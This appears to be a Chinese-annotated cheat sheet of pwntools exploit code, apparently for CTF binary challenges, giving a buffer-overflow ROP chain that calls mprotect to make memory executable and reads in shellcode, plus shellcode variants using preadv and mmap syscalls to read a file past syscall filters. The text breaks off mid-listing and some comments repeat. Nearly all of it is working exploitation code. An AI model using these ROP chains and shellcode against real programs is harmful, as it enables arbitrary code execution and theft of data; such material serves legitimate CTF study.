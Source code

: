 #### preadv

> **rop**
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```

> **shellcode**
>
> ```python
> shellcode += '''
> push 0x200
> push 0x200
> mov [rsp],rsp
> '''
> shellcode += shellcraft.amd64.linux.preadv('rax', 'rsp', 1, 0)
> shellcode += """
> push 0x200
> push 0x200
> mov [rsp],rsp
> mov rdi, 3
> mov rsi, rsp
> mov rdx, 0x1
> mov r10, 0
> mov rax, 0x127
> syscall
> """   # read
> ```

#### mmap

> **rop**
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```

> **shellcode**
>
> ```python
> # 主要mmap映射到了0x777721000，所以之后的write也需要输出0x777721000位置的内容。
> shellcode += shellcraft.amd64.linux.mmap(0x777721000, 0x100, 1, 2, 3, 0)
> 
> 
> # 主要mmap映射到了0x777721000，所以之后的write也需要输出0x777721000位置的内容。
> shellcode += """
> mov rdi, 0x777721000
> mov rsi, 0x100
> mov rdx, 1
> mov r10, 2